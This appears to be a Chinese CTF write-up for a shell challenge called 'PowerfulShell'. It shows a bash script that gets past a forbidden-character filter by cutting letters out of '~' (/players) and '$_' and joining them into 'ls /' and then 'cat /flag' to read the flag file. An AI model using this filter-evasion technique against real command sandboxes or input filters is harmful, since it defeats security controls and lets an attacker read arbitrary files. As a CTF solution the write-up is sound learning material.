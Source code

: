 这是我想了三天还没想出来而无语失望落魄自嘲的情况下做的表情🤣，不过写出来之后还是很高兴的。

这道题其实很简单，只需要对能获取到的字符串进行字符截取和拼接就可以了。

首先知道几个有用的客观事实：

```shell
_1,_2,_3,__ 等下划线开头加上合法字符都可以当作变量
~ 是主目录字符串。在题目中为 /players
$_ 是表示的是打印上一个输入参数行, 当这个命令在开头时, 打印输出文档的绝对路径名。在题目中为input
```

~是关键，因为/players字符串中包含了 l，s 这两个字符，可以用于截取拼接形成 ls 指令。同时能截取到 / , 这样 \`ls /\` 就可以获取根目录下的所有文件名并赋值给变量了。

话不多说，下代码：

```shell
_1=~              # _1:'/players'
_2=9$_1           # _2:'9/players'
_3=${_2:1:1}      # _3:'/'
_4=${_1:7:1}      # _4:'s'
_5=${_1:2:1}      # _5:'l'
_6=`$_5$_4 $_3`   # _6: ls / 的输出(bin\nboot\ndev\netc\nflag\nhome\nlib\nlib32\nlib64\nlibx32\nmedia\nmnt\nopt\nplayers\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar)
_7=${_6:15:1}     # _7:'c'
_8=${_1:3:1}      # _8:'a'
_9=${_:4:1}       # _9:'t'
_11=${_6:17:4}    # _11:'flag'
$_7$_8$_9 $_3$_11 # cat /flag
```

得到flag

<img src="img\屏幕截图 2024-11-09 190434.png">

既然能得到这么多Forbidden chars了，那也可以在PowerfulShell里干更多事了(bushi)



## Paolu GPT
